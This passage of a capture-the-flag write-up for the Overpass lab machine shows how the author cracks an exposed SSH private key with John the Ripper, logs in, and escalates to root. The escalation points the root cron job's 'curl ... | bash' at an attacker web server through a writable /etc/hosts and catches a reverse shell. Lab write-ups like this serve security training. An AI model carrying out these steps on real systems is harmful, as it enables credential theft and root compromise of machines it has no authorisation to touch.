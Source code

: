 Then, refresh the page. You will be logged in and will see an exposed SSH private key. Capture that (to `./james_id_rsa`). We need to run:

> `ssh2john.py ./james_id_rsa > ./james_id_rsa.hash`

to get this private key into a format that John the Ripper can crack. Finally, we can run the following to get the password for the SSH private key:

> `john ./id_rsa.hash --wordlist=/usr/share/wordlists/rockyou.txt`

This [shows us](john.log) the password is: `james13`. We can now SSH into this server with:

> `ssh james@xxx.xxx.xxx.xxx -i ./james_id_rsa`

From that, we can retrieve the `user.txt` flag.

### Privilege Escalation

Linpeas showed that we had write-permissions on `/etc/hosts`. Meanwhile, `/etc/crontab` has an entry like this:

```bash
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```
Also see: [linpeas.log](linpeas.log)

#### The Killchain

This is a multi-step operation where we need to stand up a web server to offer our payload to the target machine, who we want to trick into download that payload. The idea is to:

1. Target: Modify `/etc/hosts` to point back to our workstation for `overpass.thm`.
1. Attacker: Stand up a webserver that hosts `/downloads/src/buildscript.sh`.
1. Attacker: Develop a payload that will spawn a reverse shell, and put it into that `buildscript.sh`.
1. Attacker: Create a listener to catch the session (e.g. `nc` or Metasploit).

Then, in the next minute:

1. The cronjob will kick off, reach out to OUR server for `buildscript.sh`.
1. `buildscript.sh` executes, running as `root`, and connects back to our listener.
1. We now have a reverse shell running as `root`. We can now retrieve the `/root/root.txt` flag.
